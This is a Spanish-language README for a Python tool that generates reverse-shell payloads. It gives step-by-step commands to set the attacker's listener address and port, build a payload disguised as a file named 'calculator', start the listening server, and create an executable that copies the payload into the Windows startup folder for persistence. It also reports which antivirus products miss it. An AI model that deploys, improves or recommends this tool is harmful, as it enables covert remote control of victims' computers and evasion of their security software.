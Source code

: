 # Reverse Shell

Proyecto que consiste en generar un payload de reverse shell en python, el cual se ejecuta en la máquina objetivo y se conecta a un servidor controlado por el atacante.

- [Reverse Shell](#reverse-shell)
  - [Requisitos](#requisitos)
  - [Instalación](#instalación)
  - [Uso](#uso)
  - [Comandos](#comandos)
  - [Ejemplos](#ejemplos)
    - [Payload](#payload)
    - [Servidor en escucha](#servidor-en-escucha)
    - [Autoexe](#autoexe)
  - [Pruebas realizadas en antivirus](#pruebas-realizadas-en-antivirus)
  - [Resultados de virustotal.com](#resultados-de-virustotalcom)
  - [Capturas](#capturas)

## Requisitos

- ![Static Badge](https://img.shields.io/badge/Python-^3.12-yellow?logo=python&logoColor=white)

## Instalación

Clona el repositorio

```bash
git clone https://github.com/epmyas2022/reverse_shell.git
```

Entra al directorio del proyecto

```bash
cd reverse_shell
```

Instala las dependencias

```bash
pip install -r requirements.txt
```

## Uso

```bash
python reverse_shell.py
```

## Comandos

- `help`: Muestra la lista de comandos disponibles.
- `generate`: Genera un payload de reverse shell en python.
- `execute`: Inicia un servidor que escucha las conexiones de los payloads generados.
- `autoexe`: Genera un exe que creara una copia del payload en la carpeta de inicio de Windows.
- `set`: Establece el valor de una variable.
- `exit`: Salir del programa.

## Ejemplos

Generar un payload de reverse shell especificando la dirección IP y el puerto del servidor

El siguiente comando setea la direccion IP del payload:

### Payload

```bash
set generate.lhost 10.0.0.20
```

El siguiente comando setea el puerto del payload:

```bash
set generate.lport 4444
```

El siguiente comando genera el payload:

```bash
generate
```

![Reverse Shell Generate Command](./images/payload.png)

Los payloads generados se guardan en la carpeta raíz del proyecto. con el siguiente nombre: `calculator-{timestamp}`

### Servidor en escucha

Iniciar el servidor que escucha las conexiones de los payloads generados

El siguiente comando setea el puerto del servidor:

```bash
set session.lport 4444
```

El siguient comando setea el host del servidor:

```bash
set session.lhost 10.0.0.20
```

El siguiente comando inicia el servidor:

```bash
execute
```

![Reverse Shell Execute Command](./images/execute.png)

Para detener la escucha del servidor, presiona `Ctrl + C`

Para salir de la sesión, ejecuta el comando `exit`

### Autoexe

Generar un autoexe creara una copia del payload en la carpeta de inicio de Windows.

Antes que nada, se debe generar un payload.

El siguiente comando setea el nombre del archivo:

```bash
set windows.autoexe.path <nombre_del_payload>
```

El siguiente comando genera el autoexe:

```bash
autoexe
```

![Reverse Shell Autoexe Command](./images/autoexe.png)

## Pruebas realizadas en antivirus

✅ = No detectado
❌ = Detectado

- Windows Defender [✅]
- Avast [✅]
- ESETNOD32 [✅]
- McAfee [✅]
- Bitdefender [✅]
- Bkav Pro [❌]
- SecureAge [❌]
- Kaspersky [❌]
- Skyhigh (SWG) [❌]

## Resultados de virustotal.com

- Ver resultado de [Payload]("https://www.virustotal.com/gui/file/a3529b34abafcf1bb4ae8bebb464d7a79a22ea1bd9a14dfdd53072edd2d28911")
- Ver resultado de [Autoexe]("https://www.virustotal.com/gui/file/9988d8ba90ad03359e79be815032e616d1f76432a12208c659b1cd2a8a719f7b/detection")

## Capturas

![Reverse Shell](./images/image.png)
